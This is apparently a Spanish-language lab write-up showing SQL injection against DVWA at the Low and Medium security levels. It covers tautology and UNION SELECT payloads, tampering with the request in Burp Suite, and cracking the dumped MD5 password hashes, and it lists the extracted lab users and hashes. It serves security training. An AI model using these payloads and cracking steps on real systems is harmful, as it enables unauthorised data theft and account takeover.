





#SQL INJECTION DVWA

## SQL Injection en **Low** Security

### Pasos:

1. Ve al menú izquierdo y selecciona **SQL Injection**.
2. En el campo **User ID**, ingresa el siguiente payload:

```sql
1' OR '1'='1
```

Con el anterior payload hemos consegido los usuarios como vemos en la siguiente captura:


Ahora necesitaremos obtener las contraseñas, para ellos usaremos el siguiente payload:

```sql
' UNION SELECT user, password FROM users#
```
captura:



Y para finalizar tendremos que transformar los hashes en texto plano, podriamos usar "jhon the ripper" o por ejemplo yo he usado una web 

[Crackstation](https://crackstation.net/)

captura de las contraseñas en plano:



## SQL Injection en **Medium** Security

### Pasos:

1. Debido al nivel de seguridad **Medium**, el formulario de entrada estaba limitado a un desplegable (select) de 1 a 5. Sin embargo, se identificó que la aplicación seguía utilizando los parámetros GET en la URL, por lo que fue posible manipularlos manualmente.

Cuando usamos '1 OR 1=1' Esta condición siempre es verdadera, forzando que la consulta devuelva todas las filas. 

Usando el payload de low en medium:


Resultado del anterior payload:




2. Para interceptar y modificar la petición cambiando el valor del parámetro `id` en burpsuite al valor la URL:

UNION SELECT user, password FROM users: Se utiliza la cláusula UNION para combinar los resultados de dos consultas SQL, obteniendo directamente las columnas user y password de la tabla users.

#: Se utiliza el comentario para ignorar cualquier parte restante de la consulta original que podría causar errores.

```sql
1 OR 1=1 UNION SELECT user, password FROM users#

```

Carga del payload en burpsuite:




Resultado:



3. Ahora como hemos hecho en el low podemos descrifar los hashes.

## Documentacion Extra: Hashes

[Hashes extraídos](./extraccion_de_hashes.txt)
```
text
ID: ' UNION SELECT user, password FROM users#
First name: admin
Surname: 5f4dcc3b5aa765d61d8327deb882cf99

ID: ' UNION SELECT user, password FROM users#
First name: gordonb
Surname: e99a18c428cb38d5f260853678922e03

ID: ' UNION SELECT user, password FROM users#
First name: 1337
Surname: 8d3533d75ae2c3966d7e0d4fcc69216b

ID: ' UNION SELECT user, password FROM users#
First name: pablo
Surname: 0d107d09f5bbe40cade3de5c71e9e9b7

ID: ' UNION SELECT user, password FROM users#
First name: smithy
Surname: 5f4dcc3b5aa765d61d8327deb882cf99
```